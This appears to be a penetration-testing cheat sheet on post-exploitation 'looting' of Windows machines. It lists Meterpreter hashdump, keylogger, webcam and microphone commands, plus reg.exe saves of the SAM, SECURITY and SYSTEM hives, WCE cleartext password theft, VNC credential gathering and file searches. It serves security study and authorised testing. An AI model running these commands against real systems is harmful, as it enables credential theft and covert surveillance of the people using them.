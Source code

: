 ```yaml
---
description: Grab all the things
---
```


# Loot

### Meterpreter <a id="meterpreter"></a>

If you have a meterpreter shell you are able to do a lot of thing with very little effort. If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```text
-h
```

**Dump windows hashes for further analysis**

```text
hashdump
```

Keylogger

```text
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```text
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

### Dumping passwords and hashes on windows <a id="dumping-passwords-and-hashes-on-windows"></a>

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

#### LM Hashes <a id="lm-hashes"></a>

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```text
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```text
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

#### fgdump.exe <a id="fgdumpexe"></a>

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

#### Windows Credential Editor \(WCE\) <a id="windows-credencial-editor-wce"></a>

WCE can steal NTLM passwords from memory in cleartext! There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```text
wce32.exe -w
```

#### Loot registry without tools <a id="loot-registry-without-tools"></a>

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries. Get the registry:

```text
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

#### Pwdump 7 <a id="pwdump-7"></a>

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

### VNC <a id="vnc"></a>

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```text
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

### Tcp-dump on Windows <a id="tcp-dump-on-winfows"></a>

You can use meterpreter to easily take a tcp-dump, like this:

```text
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

#### Search for interesting files <a id="search-for-interesting-files"></a>

```text
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

### References <a id="references"></a>

This is a great post [https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)[  
](https://xapax.gitbooks.io/security/content/loot.html)

